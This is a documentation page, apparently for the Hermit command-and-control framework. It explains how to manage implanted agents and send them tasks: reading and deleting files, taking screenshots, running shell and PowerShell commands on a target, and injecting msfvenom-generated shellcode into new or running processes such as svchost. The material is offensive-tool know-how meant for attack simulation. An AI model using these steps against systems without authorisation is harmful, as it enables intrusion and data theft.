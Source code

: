 +++
title = "Agent"
date = 2024-01-11
[extra]
toc=true
+++

After executing the implant in target computer, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check agents with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

## Switch to Agent Mode

To interact with the agent for attack simulation, you can run the `agent use <ID or Name>` command.

```sh
# Specify the agent ID
Hermit $ agent use 1

# Specify the agent name
Hermit $ agent use agent_123
```

<br />

## Send Tasks

In the agent mode, you can remote control to target computer with sending tasks to the agent.  
Specifically, you can use the following commands:

|Command|Description|
|---|---|
|exit|Exit the agent mode.|
|cat|Read a file content.|
|cd|Change the current directory.|
|download|Download a file from target computer.|
|info|Get the detailed information of the system.|
|ls|List files in specified directory.|
|loot|Show the looted information for the agent that you've obtained so far. (Under development)|
|net|Get the network information.|
|ps|Process management.|
|pwd|Get the current directory.|
|rm|Remove file or directory.|
|screenshot|Take a screenshot for target machine.|
|shell|Execute shell command for target machine.|
|shellcode|Inject a shellcode for executing arbitrary commands in the new created process.|
|sleep|Change sleep time for sending requests to C2 server.|
|upload|Upload a file to target computer. (Under development)|
|whoami|Get current username.|
|help|Print this message or the help of the given subcommand(s)|

### Shell

- CMD

```sh
Hermit [agent: agent_2352650890] $ shell whoami
[+] VICTIM\john
```

- PowerShell

If you want to run PowerShell command, add the `--ps` flag.

```sh
Hermit [agent: agent_2352650890] $ shell --ps Get-Process
[+]
...
```

### Shellcode

To execute shellcode in process, you need to generate shellcode at first.  
For example, the following command generates a shellcode which opens `calc.exe`.  
Currently **HEX** encoding required.

```sh
msfvenom -p windows/x64/exec CMD="calc.exe" -f hex -o /tmp/shellcode.txt
```

After generating, run the `shellcode` command in the agent mode.

- **Inject New Process**

When specifying the process name with the `--process` option, a new process will be created and injected shellcode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --process svchost --file /tmp/shellcode.txt
```

- **Inject Running Process**

When specifying the process ID with the `--pid` option, the currently running process will be injected shellcode.  
To list the PIDs, run the `ps list` command in agent mode.

```sh
Hermit [agent: agent_2352650890] $ shellcode --pid 1234 --file /tmp/shellcode.txt
```

If successful, the target computer opens `calc.exe`.

<br />

## Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

<br />

## Delete Agent

```sh
# Specify the agent ID
Hermit $ agent delete 1

# Specify the agent name
Hermit $ agent delete agent_123
```

### Delete All Agents

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```
